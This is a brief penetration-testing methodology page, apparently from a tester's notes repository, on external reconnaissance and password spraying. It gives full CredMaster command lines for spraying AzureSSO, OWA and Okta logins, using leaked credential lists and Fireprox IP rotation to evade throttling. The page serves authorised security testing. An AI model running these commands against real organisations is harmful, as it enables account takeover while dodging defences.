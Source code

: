 # External

Once we have performed OSINT and additional enumeration we can start more active testing such as:

* Checking if FTP is open, and if anonymous login is enabled.
* Checking  if SSH is open and if it takes password authentication.
* Look at all http/https pages for login pages, information disclosure, and default login credentials.

## Password Spraying

We can password spray using the usernames, and emails we obtained using OneDrive User Enum and usernames, emails, and passwords from Dehashed-API-Tool. I typically spray with passwords found from Dehashed-API-Tool, and [WeakPasswords.net](https://weakpasswords.net/)

### [Credmaster](https://github.com/knavesec/CredMaster)

This tool will require an [Amazon AWS Account](https://aws.amazon.com/) to utilize their API. This tool uses [Fireprox](https://github.com/ustayready/fireprox) APIs to rotate IP addresses, stay anonymous, and beat throttling. This tool can spray against multiple environments, but the most common ones I run into are:

* AzureSSO

```
python3 credmaster.py --config config.json --plugin azuresso --domain domain.com -u users.txt -p wordlist.txt --region us-east-1 --delay 20 --randomize --trim -o OUTFILE
```

* OWA

```
python3 credmaster.py --config config.json --plugin owa --domain domain.com -u users.txt -p wordlist.txt --region us-east-1 --delay 20 --randomize --trim -o OUTFILE
```

* Okta

```
python3 credmaster.py --config config.json --plugin okta --domain domain.com -u users.txt -p wordlist.txt --region us-east-1 --delay 20 --randomize --trim -o OUTFILE
```

## More Coming Soon
